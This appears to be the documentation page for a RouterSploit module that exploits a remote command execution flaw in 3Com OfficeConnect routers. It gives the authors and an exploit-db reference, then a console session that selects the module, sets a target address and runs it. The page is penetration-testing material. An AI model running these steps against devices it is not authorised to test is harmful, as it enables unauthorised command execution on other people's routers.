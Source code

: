 # 3Com OfficeConnect RCE

## Description
Module exploits 3Com OfficeConnect remote command execution vulnerability which allows executing command on operating system level.

## Authors
* Andrea Fabizi # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/9862/](https://www.exploit-db.com/exploits/9862/)

## Vulnerable devices
* 3Com OfficeConnect

## Usage
```
rsf > use exploits/3com/officeconnect_rce
rsf (3Com OfficeConnect RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (3Com OfficeConnect RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com OfficeConnect RCE) > run
[*] Running module...
```
